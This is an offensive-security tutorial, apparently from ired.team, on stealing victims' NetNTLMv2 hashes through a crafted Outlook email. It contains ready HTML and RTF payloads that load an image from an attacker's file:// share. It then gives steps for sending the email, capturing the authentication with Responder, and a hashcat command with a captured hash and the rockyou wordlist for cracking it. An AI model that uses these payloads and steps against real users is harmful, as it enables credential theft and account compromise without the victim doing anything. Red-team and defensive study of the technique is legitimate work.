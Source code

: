 ## Steal NTLMv2 hashes when controlling an exchange/outlook account

- If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.
- Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.

- Create a new HTML file with the below:
```
<html>
    <h1>holla good sir</h1>
    <img src="file://<ip>/download.jpg">
</html>
```

An RTF file also works:
```
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://<ip>/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```

- Then insert a new file by clicking the attachment icon at the top on the window title bar and select the malicious file.html and select Insert as Text

- You should see that your message now looks like an HTML with a broken image (expected in our case since the path to the image is fake)

- Fire up Responder to listen for incoming SMB authentication requests from the victim and send the malicious email to the victim.

Victim View
Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server (running Responder). This will give away the victim's NetNTLMv2 hashes to the attacker, which they can then attempt at cracking:

Once the hash is stolen, we can attempt cracking it:
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

https://www.ired.team/offensive-security/initial-access/netntlmv2-hash-stealing-using-outlook